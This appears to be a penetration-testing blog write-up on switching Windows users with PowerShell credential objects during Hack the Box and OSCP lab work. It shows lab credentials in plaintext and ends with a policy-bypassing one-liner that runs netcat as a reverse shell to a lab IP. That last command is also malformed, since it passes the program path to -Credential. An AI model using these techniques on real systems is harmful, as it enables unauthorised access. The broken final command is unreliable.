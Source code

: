 ```yaml
---
layout: post
title:  "Powershell For Penetration Testers Switching Users"
author: nanobyte
date:   2020-06-01
description: PowerShell for Penetration Testing, and how to use credentials to switch users
tags: PowerShell HTB_Walkthrough
---
```


While completing Hack the Box's Sniper machine, I came across the need to have to switch to a different user. Credentials were discovered in a db.php file, and there was no way to login as that user using external tools such as Evil-WinRM. However, thanks to PowerShell, there is a simple way to quickly write a script to store these credentials in variables, and enter a new PowerShell session to that user. To begin, the credentials discovered were Chris:36mEAhz/B8xQ~2VM. To start out, the first variables I needed to set were the username and password:

{% highlight bash linenos %}
$username='Chris'
$password='36mEAhz/B8xQ~2VM'
{% endhighlight %}

Now that I had the credentials stored, I could not pass these credentials as plain text. PowerShell is special when it comes to handling passwords; it requires that you use a secure string when passing passwords for accounts. This can be completed using PowerShells ConvertTo-SecureString. To find out more about this, please visit <a href="https://docs.microsoft.com/en-us/powershell/module/microsoft.powershell.security/convertto-securestring?view=powershell-7" target="_blank">docs.Microsoft.com</a>. To secure the password, I made a new variable `$securePassword` and secured the `$password` string:

{% highlight bash linenos %}
$username='Chris'
$password='36mEAhz/B8xQ~2VM'
$securePassword = ConvertTo-SecureString $password -AsPlainText -Force
{% endhighlight %}

Now, I had the beginning parts of my script complete. It has taken basic user credentials and stored them securely to pass for use to enter into our new session. The next stage is creating a `$credential` variable and using PowerShell's New-Object cmdlet to create a new .NET framework object for the credentials. In PowerShell, objects are "things" that the language can "consume", and have their own properties. In my case, I was creating a new `$credential` object for PowerShell to "use" that consist of several properties. We can see these properties coming up. To make this object, I added the following command to our script:

{% highlight bash linenos %}
$username='Chris'
$password='36mEAhz/B8xQ~2VM'
$securePassword = ConvertTo-SecureString $password -AsPlainText -Force
$credential = New-Object System.Management.Automation.PSCredential ($username, $securePassword)
{% endhighlight %}

With that I had created our object containing Chris' credentials! At this point, I was able to check to make sure that the credentials are properly stored. PowerShell provides a GetNetworkCredentials method to verify this. I simply called this method on the new credentials object, along with format-list. PowerShell's format-list is a powerful output tool, which displays a tabled list of properties. To output all the properties, we include the star symbol after the cmdlet:

{% highlight bash linenos %}
$username='Chris'
$password='36mEAhz/B8xQ~2VM'
$securePassword = ConvertTo-SecureString $password -AsPlainText -Force
$credential = New-Object System.Management.Automation.PSCredential ($username, $securePassword)
$credential.GetNetworkCredential() | Format-List *
{% endhighlight %}

And as output, we should see the proper credentials returned in a PowerShell formatted list:

{% highlight bash linenos %}
UserName       : Chris
Password       : 36mEAhz/B8xQ~2VM
SecurePassword : System.Security.SecureString
{% endhighlight %}

Finally, I then entered into a new PowerShell session. This is completed by first using the New-PSSession cmdlet. This cmdlet allows us to create a new session on a local or remote computer. I then passed the stored secure credentials to this new session! And once passed, I piped to PowerShell's Enter-PSSession cmdlet to enter into the session:

{% highlight bash linenos %}
$username='Chris'
$password='36mEAhz/B8xQ~2VM'
$securePassword = ConvertTo-SecureString $password -AsPlainText -Force
$credential = New-Object System.Management.Automation.PSCredential ($username, $securePassword)
$credential.GetNetworkCredential() | Format-List *
New-PSSession -Credential $credential | Enter-PSSession
{% endhighlight %}

And with that, I had properly created a simple script to switch into a user PowerShell session, when I was unable to log into the machine using external tools! 

Now, to take this one step further. I could use this method and create a PowerShell one-liner. This one liner would look something like this (I have removed the `$credential.GetNetworkCredential() | Format-List *` line to make the line more digestable, but can be placed in for a credential check:

{% highlight bash linenos %}
$username='Chris';$password='36mEAhz/B8xQ~2VM';$securePassword = ConvertTo-SecureString $password -AsPlainText -Force;$credential = New-Object System.Management.Automation.PSCredential ($username, $securePassword);New-PSSession -Credential $credential | Enter-PSSession
{% endhighlight %}

And this would enter into a new PowerShell session as a one-liner. To use this one-liner in another practical example, during OSCP's labs I had to bypass a restricted PowerShell policy and spawn a new process with user credentials, in a one-liner. To start, check out my previous post on <a href="https://ubg-hacking.team/2020/05/23/powershell-for-pentesters-beating-restricted-policies.html" target="_blank">beating PowerShell's restricted policies</a>. To spawn our new process, we would make the following change:

{% highlight bash linenos %}
powershell -exec bypass -nop -c "& {$username='Chris';$password='36mEAhz/B8xQ~2VM';$securePassword = ConvertTo-SecureString $password -AsPlainText -Force;$credential = New-Object System.Management.Automation.PSCredential ($username, $securePassword);$prog='C:\\temp\\nc.exe'; $args='-e cmd.exe 192.168.119.129 443'; Start-Process -Credential $prog $args }"

It is important to pass the `-Credential` object first, before `$prog` and the `$args` variables to work properly. Thanks for reading!
